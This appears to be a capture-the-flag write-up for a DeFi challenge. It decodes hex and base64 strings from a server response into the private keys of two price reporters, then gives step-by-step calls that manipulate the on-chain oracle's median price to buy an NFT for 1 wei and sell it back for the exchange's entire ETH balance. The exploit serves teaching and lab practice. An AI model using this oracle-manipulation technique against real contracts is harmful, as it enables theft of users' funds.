 ## Compromised

### Challenge description

> While poking around a web service of one of the most popular DeFi projects in the space, you get a somewhat strange response from their server. This is a snippet:

```
HTTP/2 200 OK
content-type: text/html
content-language: en
vary: Accept-Encoding
server: cloudflare

4d 48 68 6a 4e 6a 63 34 5a 57 59 78 59 57 45 
30 4e 54 5a 6b 59 54 59 31 59 7a 5a 6d 59 7a 
55 34 4e 6a 46 6b 4e 44 51 34 4f 54 4a 6a 5a 
47 5a 68 59 7a 42 6a 4e 6d 4d 34 59 7a 49 31 
4e 6a 42 69 5a 6a 42 6a 4f 57 5a 69 59 32 52 
68 5a 54 4a 6d 4e 44 63 7a 4e 57 45 35

4d 48 67 79 4d 44 67 79 4e 44 4a 6a 4e 44 42 
68 59 32 52 6d 59 54 6c 6c 5a 44 67 34 4f 57 
55 32 4f 44 56 6a 4d 6a 4d 31 4e 44 64 68 59 
32 4a 6c 5a 44 6c 69 5a 57 5a 6a 4e 6a 41 7a 
4e 7a 46 6c 4f 54 67 33 4e 57 5a 69 59 32 51 
33 4d 7a 59 7a 4e 44 42 69 59 6a 51 34
```

> A related on-chain exchange is selling (absurdly overpriced) collectibles called "DVNFT", now at 999 ETH each
>
> This price is fetched from an on-chain oracle, and is based on three trusted reporters:
> `0xA73209FB1a42495120166736362A1DfA9F95A105`
> `0xe92401A4d3af5E446d93D11EEc806b1462b39D15`
> `0x81A5D6E50C214044bE44cA0CB057fe119097850c`
>
> Starting with only 0.1 ETH in balance, you must steal all ETH available in the exchange.

### Solution

The server response has 2 long strings which when decoded as a string as suggested by the headers, they return the following:

```
MHhjNjc4ZWYxYWE0NTZkYTY1YzZmYzU4NjFkNDQ4OTJjZGZhYzBjNmM4YzI1NjBiZjBjOWZiY2RhZTJmNDczNWE5
```

```
MHgyMDgyNDJjNDBhY2RmYTllZDg4OWU2ODVjMjM1NDdhY2JlZDliZWZjNjAzNzFlOTg3NWZiY2Q3MzYzNDBiYjQ4
```

These look like base64 strings, which we can further decode into:

```
0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9
```

```
0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48
```

When trying these out as private keys, we obtain the private keys for the last two addresses in the `sources` list, which are the EOAs allowed to post prices to the oracle.

Now that we can use these addresses, we can call `postPrice()` for the "DVNFT" NFTs:

```python
oracle.postPrice("DVNFT",0, _fromLeakedAcc[0])
oracle.postPrice("DVNFT",0, _fromLeakedAcc[1])
```

After posting 0 for each of them, the median price returned by `getMedianPrice()` will return 0, as the median of $\{990, 0, 0\}$ is $0$.

We can then use the attacker account to buy one of these NFTs for 1 wei. We need to send at least 1 wei when buying, as requested by the `buyOne()` function:

```solidity
uint256 amountPaidInWei = msg.value;
require(amountPaidInWei > 0, "Amount paid must be greater than zero");
```

After obtaining the NFT, we can post a new price corresponding to the entire balance of the NFT exchange:

```python
oracle.postPrice("DVNFT", exchange.balance(), _fromLeakedAcc[0])
oracle.postPrice("DVNFT", exchange.balance(), _fromLeakedAcc[1])
```

Then we must approve the token to be taken from the attacker wallet by the exchange calling `approve()` with the ID of our NFT (`0`):

```py
nft_token.approve(exchange.address, 0, _fromAttacker)
```

Then we sell the token calling `sellOne()` with the token ID:

```py
exchange.sellOne(0, _fromAttacker)
```

And then we return the price to normal, as requested by the challenge:

```py
oracle.postPrice("DVNFT",ether_to_wei(999), _fromLeakedAcc[0])
oracle.postPrice("DVNFT",ether_to_wei(999), _fromLeakedAcc[1])
```


